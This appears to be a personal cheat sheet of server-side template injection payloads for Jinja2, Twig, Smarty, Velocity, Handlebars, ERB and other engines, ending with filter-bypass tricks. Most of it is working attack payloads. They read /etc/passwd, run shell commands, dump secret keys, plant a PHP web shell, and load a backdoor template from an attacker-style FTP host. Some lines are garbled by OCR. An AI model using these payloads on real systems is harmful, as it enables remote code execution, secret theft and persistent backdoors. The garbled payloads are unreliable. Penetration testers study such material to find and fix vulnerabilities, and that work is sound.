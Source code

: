 # Cheat Sheet testing:
```
Jinja2 (Python Flask/Django): {{ 7*7 }}  
Freemarker (Java):             ${7*7}  
Velocity (Java):          #set($a = 7*7)${a}  
Thymeleaf (Java):              ${7*7}  
Twig (PHP Symfony):           {{ 7*7 }}  
Smarty (PHP):                  {$7*7}  
Mako (Python):                 ${7*7}
```
![[Pasted image 20250408092652.png]]

## SSTI Polygot
```
${{<%[%'"}}%\.
```

## FreeMarker (Java):
```
${7*7}=49
```
```
<#assign command="freemarker template utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

## Java:
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("") .getPath()}
${class.getResource(" .. / .. / .. / .. / .. /index.htm") .getContent()}
${T(java. lang. System) . geteny ( ) }
${product.getClass() .getProtectionDomain().getCodeSource().getLocation().toURI().re
solve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump (app)}}
{{app. request. server. all| join(',') }}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP) :
```
{$smarty.version}
{php}echo `id ; {/php}
{Smarty_Internal_Write_File :: writeFile($SCRIPT_NAME," <? php passthru ($_GET['cmd' ]);
?>",self: : clearConfig())}
```
## Handlebars (NodeJS) :
```
wrtz{{#with "s" as | string| }}
{ {#with "e"}}
{{#with split as
{{this.pop} }
{{this.push (lookup string. sub "constructor" ) } }
{{this.pop}}
{{#with string.split as | codelist| }}
{{this.pop}}
{{this.push "return require('child_process' ) . exec ( 'whoami' ); "}}
{ {this.pop} }
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{ {/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set ($chr=$class.inspect("java.lang.Character") .type)
#set ($ex=$class.inspect("java.lang.Runtime") .type.getRuntime() .exec ("whoami"))
$ex.waitFor ()
#set ($out=$ex.getInputStream())
#foreach($i in [1 .. $out.available() ])
$str.valueOf($chr.toChars ($out.read()))
#end
```

## ERB (Ruby) :
```
<%= system("whoami" ) %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file' ) .read %>
```

## Django Tricks (Python):
```
{% debug %}
{{settings.SECRET_KEY} }
```

## Tornado (Python) :
```
{% import foobar %} = Error
{% import os %} { {os. system ( 'whoami' ) } }
```

## Mojolicious (Perl) :
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base. subclasses () }} # get all classes
{{''.class.mro() [1].subclasses()}}
{%for c in [1,2,3] %}{ {c.c.c}}{% endfor %}
```

## Flask/Jinja2:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

## Jade:
```
#{root.process.mainModule.require('child_process') . spawnSync('cat', ['/etc/passwd']) .stdout}
```

## Razor (.Net) :
```
@(1+2)
@{// C# code}
```

### Bypassing filters
#### Blocking: `.`
- (`.`) → Uses `|attr()` to dynamically access attributes:  
```
request.application.__globals__  TURNS INTO: request|attr(‘application’)|attr(“__globals__”)
```

#### Blocking: `__`
- Hex Encoding (`\x5f`) for Underscores (`_`)

#### Blocking: `[]`
- Using `__getitem__()` Instead of `[]`

#### RCE Without `eval()` or `exec()`  
```
__import__(‘os’).popen(‘id’).read()  
```
- Avoids blocked `os.system()` and `subprocess.Popen()`.

#### Example payloads:
Payload to commit RCC (in jinja):
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- Executes the `id` command
